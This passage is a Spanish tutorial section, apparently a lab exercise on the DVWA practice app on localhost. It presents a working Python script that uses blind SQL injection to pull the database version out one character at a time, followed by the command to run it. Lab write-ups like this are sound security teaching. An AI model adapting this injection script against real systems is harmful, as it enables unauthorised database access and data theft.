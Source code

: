 En este apartado, vamos a realizar la ejecución de un script en python, para poder averiguar la versión de la base de datos que está ejecutando el servidor. Esto nos permite buscar vulnerabilidades en internet para poder realizar la explotación de la misma. Para ello el primer paso es crear el código en python:

```python

import requests
from requests.structures import CaseInsensitiveDict

headers = CaseInsensitiveDict()
headers["Cookie"] = "security=medium; PHPSESSID=q1al1s91f2l75phkc846d636e6"
headers["Content-Type"] = "application/x-www-form-urlencoded"
url = 'http://localhost/vulnerabilities/sqli_blind/'

for i in range(100):
    parameters = f"id=1+and+length(version())={i}&Submit=Submit"
    # parameters = {"id": f'1+and+length(version())={i}', "Submit": "Submit"}
    r = requests.post(url, headers=headers, data=parameters)
    if 'User ID exists in the database' in r.text:
        print(f'length = {i}')
        length = i
        break
j = 1
for i in range(1, length+1):
    for s in range(30, 126):
        parameters = f"id=1+and+ascii(substring(version(),{i},{j}))={s}&Submit=Submit"
        r = requests.post(url, headers=headers, data=parameters)
        if 'User ID exists in the database' in r.text:
            print(chr(s), end='')
            break
        j += 1


```

Una vez creado el archivo, podemos proceder a su ejecución con el siguiente comando:

    python3 sqlVersion.py

Y como podemos observar, nos ha extraido la versión junto con el nombre de la base de datos que utiliza:

![Imagen](./images/dbVersion.png)


